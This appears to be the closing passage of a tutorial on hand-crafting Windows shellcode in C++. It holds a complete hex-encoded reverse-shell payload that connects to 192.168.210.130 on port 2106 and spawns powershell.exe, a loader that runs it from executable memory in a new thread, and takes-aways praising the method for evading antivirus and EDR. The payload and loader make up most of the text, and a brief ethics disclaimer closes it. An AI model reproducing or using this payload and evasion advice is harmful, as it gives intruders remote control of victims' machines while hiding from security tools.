"\x4C\x24\x50\x48\x89\x44\x24\x50\xFF\xD3\x48\xB9\x4D\x65\x73\x73"
"\x61\x67\x65\x42\x48\xC7\x44\x24\x58\x6F\x78\x41\x00\x48\x89\x4C"
"\x24\x50\x48\x8D\x54\x24\x50\x48\x8B\xC8\xFF\xD7\x48\xB8\x57\x73"
"\x32\x5F\x33\x32\x2E\x64\x48\xC7\x44\x24\x58\x6C\x6C\x00\x00\x48"
"\x8D\x4C\x24\x50\x48\x89\x44\x24\x50\xFF\xD3\x48\x8B\xD8\x48\xC7"
"\x44\x24\x58\x75\x70\x00\x00\x48\xB8\x57\x53\x41\x53\x74\x61\x72"
"\x74\x48\x8D\x54\x24\x50\x48\x8B\xCB\x48\x89\x44\x24\x50\xFF\xD7"
"\x4C\x8B\xF0\x48\xC7\x44\x24\x58\x74\x41\x00\x00\x48\xB8\x57\x53"
"\x41\x53\x6F\x63\x6B\x65\x48\x8D\x54\x24\x50\x48\x8B\xCB\x48\x89"
"\x44\x24\x50\xFF\xD7\x4C\x8B\xF8\x48\xC7\x44\x24\x58\x63\x74\x00"
"\x00\x48\xB8\x57\x53\x41\x43\x6F\x6E\x6E\x65\x48\x8D\x54\x24\x50"
"\x48\x8B\xCB\x48\x89\x44\x24\x50\xFF\xD7\x48\x8B\x8D\xF0\x01\x00"
"\x00\x48\x8D\x54\x24\x50\x4C\x8B\xE0\x4C\x89\x6C\x24\x58\x48\xB8"
"\x6D\x65\x6D\x73\x65\x74\x00\x00\x48\x89\x44\x24\x50\xFF\xD7\x48"
"\x8D\x54\x24\x50\x48\xC7\x44\x24\x50\x73\x65\x6E\x64\x48\x8B\xCB"
"\x4C\x8B\xE8\xFF\xD7\x48\x8D\x54\x24\x50\x48\xC7\x44\x24\x50\x72"
"\x65\x63\x76\x48\x8B\xCB\xFF\xD7\x48\xB8\x68\x74\x6F\x6E\x73\x00"
"\x00\x00\x48\x8D\x54\x24\x50\x48\x8B\xCB\x48\x89\x44\x24\x50\xFF"
"\xD7\x48\x89\x85\xF0\x01\x00\x00\x48\x8D\x54\x24\x50\x48\xB8\x69"
"\x6E\x65\x74\x5F\x61\x64\x64\x48\xC7\x44\x24\x58\x72\x00\x00\x00"
"\x48\x8B\xCB\x48\x89\x44\x24\x50\xFF\xD7\x48\x89\x85\xE0\x01\x00"
"\x00\x48\xB8\x43\x72\x65\x61\x74\x65\x50\x72\x48\x89\x44\x24\x50"
"\x48\xB8\x6F\x63\x65\x73\x73\x41\x00\x00\x48\x89\x44\x24\x58\x48"
"\x8D\x54\x24\x50\x48\x8B\xCE\xFF\xD7\x48\x8B\xBD\xF0\x01\x00\x00"
"\x33\xDB\x48\x89\x85\xE8\x01\x00\x00\xB9\x02\x02\x00\x00\x48\x8D"
"\x55\x00\x41\xFF\xD6\xBE\x02\x00\x00\x00\x89\x5C\x24\x28\x8B\xCE"
"\x89\x5C\x24\x20\x45\x33\xC9\xBA\x01\x00\x00\x00\x41\xB8\x06\x00"
"\x00\x00\x41\xFF\xD7\x45\x33\xF6\x48\xC7\x44\x24\x50\x3A\x08\x00"
"\x00\xB9\x3A\x08\x00\x00\x4C\x89\x74\x24\x58\x48\x8B\xD8\x66\x89"
"\x74\x24\x60\xFF\xD7\x66\x89\x44\x24\x62\x48\x8D\x4C\x24\x50\x48"
"\xB8\x31\x39\x32\x2E\x31\x36\x38\x2E\x48\x89\x44\x24\x50\x48\xB8"
"\x32\x31\x30\x2E\x31\x33\x30\x00\x48\x89\x44\x24\x58\xFF\x95\xE0"
"\x01\x00\x00\x4C\x89\x74\x24\x30\x48\x8D\x54\x24\x60\x4C\x89\x74"
"\x24\x28\x45\x33\xC9\x41\xB8\x10\x00\x00\x00\x89\x44\x24\x64\x48"
"\x8B\xCB\x4C\x89\x74\x24\x20\x41\xFF\xD4\x33\xD2\x48\x8D\x4C\x24"
"\x70\x41\xB8\x68\x00\x00\x00\x41\xFF\xD5\x48\xB8\x70\x6F\x77\x65"
"\x72\x73\x68\x65\xC7\x44\x24\x70\x68\x00\x00\x00\x48\x89\x44\x24"
"\x50\x48\x8D\x54\x24\x50\x48\xB8\x6C\x6C\x2E\x65\x78\x65\x00\x00"
"\xC7\x45\xAC\x00\x01\x00\x00\x48\x89\x44\x24\x58\x45\x33\xC9\x48"
"\x8D\x45\xE0\x48\x89\x5D\xD0\x48\x89\x44\x24\x48\x45\x33\xC0\x48"
"\x8D\x44\x24\x70\x48\x89\x5D\xC8\x48\x89\x44\x24\x40\x33\xC9\x4C"
"\x89\x74\x24\x38\x4C\x89\x74\x24\x30\x44\x89\x74\x24\x28\xC7\x44"
"\x24\x20\x01\x00\x00\x00\x48\x89\x5D\xC0\xFF\x95\xE8\x01\x00\x00"
"\x48\x8B\x9C\x24\xF8\x02\x00\x00\x48\x81\xC4\xA0\x02\x00\x00\x41"
"\x5F\x41\x5E\x41\x5D\x41\x5C\x5F\x5E\x5D\xC3";

// Allocate memory for the shellcode
PVOID exec_mem = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (exec_mem == NULL) {
return 1; // Allocation failed
}

// Copy shellcode into allocated memory
RtlCopyMemory(exec_mem, buf, sizeof(buf));

// Create a new thread to execute the shellcode
DWORD threadID;
HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)exec_mem, NULL, 0, &threadID);
if (hThread == NULL) {
VirtualFree(exec_mem, 0, MEM_RELEASE); // Cleanup
return 1; // Thread creation failed
}

// Wait for the thread to finish execution
WaitForSingleObject(hThread, INFINITE);

// Clean up and free allocated memory
VirtualFree(exec_mem, 0, MEM_RELEASE);
return 0;
}
```

## Key Takeaways

- Custom Shellcode: Writing custom shellcode in C++ allows for greater flexibility and evasion capabilities compared to using well-known tools like msfvenom or Sliver.

- PEB/TEB Mastery: Understanding and leveraging the Process Environment Block (PEB) and Thread Environment Block (TEB) is crucial for dynamic API resolution and stealthy execution.

- String Obfuscation: Encoding strings in hexadecimal format helps avoid detection by antivirus and EDR solutions.

- Shellcode Conversion: Properly converting C++ code to shellcode involves careful compiler settings, assembly extraction, and payload packaging.

## Final Thoughts

This guide provides a comprehensive overview of crafting custom shellcode, from understanding Windows internals to executing payloads stealthily. While these techniques are powerful, they should only be used in ethical and authorized scenarios. By mastering these concepts, you can better defend against sophisticated attacks and contribute to the cybersecurity community.

---
